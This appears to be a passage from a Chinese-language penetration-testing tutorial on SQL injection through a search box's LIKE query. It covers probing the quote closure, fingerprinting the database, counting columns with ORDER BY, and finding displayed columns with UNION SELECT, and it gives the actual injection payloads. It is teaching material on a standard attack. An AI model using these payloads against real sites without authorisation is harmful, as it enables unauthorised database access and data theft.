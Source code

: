 ## 二、漏洞确认与分析

### 1. 确定注入类型

一旦确认存在注入漏洞，下一步是确定注入的类型和上下文：

1. **分析错误消息**：从错误信息中获取数据库类型、SQL查询结构等信息

2. **构造测试语句**：针对搜索功能，测试人员猜测后端可能使用如下SQL：
   ```sql
   SELECT * FROM some_table WHERE title LIKE '%[用户输入]%' OR content LIKE '%[用户输入]%'
   ```

3. **探测闭合方式**：尝试不同的闭合方式
   - `'`
   - `"`
   - `')`
   - `%'` (特别针对LIKE语句)

### 2. 数据库指纹识别

尝试确定后端数据库类型，因为不同数据库有不同的语法：
- MySQL: `VERSION()`
- SQL Server: `@@VERSION`
- Oracle: `SELECT banner FROM v$version`

例如，尝试：
```
keyword=1%' UNION SELECT 1,2,VERSION()#
```

## 三、信息收集与漏洞利用

### 1. 确定列数

UNION查询要求两边的列数相同，所以需要确定原始查询的列数：

使用ORDER BY语句逐渐增加数字直到出错：
```
keyword=1%' ORDER BY 1#  (成功)
keyword=1%' ORDER BY 2#  (成功)
keyword=1%' ORDER BY 3#  (成功)
keyword=1%' ORDER BY 4#  (失败)
```

这表明原查询有3列。

### 2. 确定数据显示位置

使用UNION SELECT测试哪些列的数据会显示在页面上：
```
keyword=1%' UNION SELECT 1,2,3#
```

假设页面显示了"2"，那么第2列的数据会直接显示在结果中。
